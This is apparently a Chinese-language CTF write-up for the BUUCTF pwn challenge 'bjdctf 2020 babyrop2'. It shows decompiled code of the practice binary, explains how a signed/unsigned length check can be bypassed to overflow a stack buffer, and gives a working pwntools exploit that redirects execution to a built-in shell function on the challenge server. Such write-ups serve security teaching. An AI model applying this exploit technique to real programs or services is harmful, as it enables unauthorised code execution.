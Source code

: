 ```yaml
---
author: 
  name: Zephyr
title: bjdctf 2020 babyrop2
date: 2022-3-22 21:20:03
permalink: /pages/2e1547494524d192
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# bjdctf 2020 babyrop2

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/bjdctf_2020_babystack2/bjdctf_2020_babystack2'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## 静态分析

主函数如下

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf; // [rsp+0h] [rbp-10h]
  size_t nbytes; // [rsp+Ch] [rbp-4h]

  setvbuf(_bss_start, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 1, 0LL);
  LODWORD(nbytes) = 0;
  puts("**********************************");
  puts("*     Welcome to the BJDCTF!     *");
  puts("* And Welcome to the bin world!  *");
  puts("*  Let's try to pwn the world!   *");
  puts("* Please told me u answer loudly!*");
  puts("[+]Are u ready?");
  puts("[+]Please input the length of your name:");
  __isoc99_scanf("%d", &nbytes);
  if ( (signed int)nbytes > 10 )
  {
    puts("Oops,u name is too long!");
    exit(-1);
  }
  puts("[+]What's u name?");
  read(0, &buf, (unsigned int)nbytes);
  return 0;
}
```

backdoor函数如下

```c
signed __int64 backdoor()
{
  system("/bin/sh");
  return 1LL;
}
```

## 思路分析

1. 目前信息：
   - 控制nbytes即可实现任意长度数据写入
   - nbytes被if判断限制在10
   - if判断nbytes时是有符号数，read时是无符号数
   - 有后门函数
   - No PIE
2. 思路：
   - 利用有符号数和无符号数的区别，绕过判断，实现溢出劫持程序流到后门函数获得shell

## exp

```python
from pwn import *
context(os='linux', arch='amd64', log_level='debug')
pwnfile = '/root/pwn/buuctf/bjdctf_2020_babystack2/bjdctf_2020_babystack2'
io = remote('node4.buuoj.cn', 28880)
# io = process(pwnfile)
elf = ELF(pwnfile)
backdoor_addr = elf.symbols['backdoor']
offset = 0x10+8
io.sendlineafter('your name:', '2147483649')
payload = flat(['a'*offset, backdoor_addr])
io.sendlineafter('u name?\n', payload)
io.interactive()
```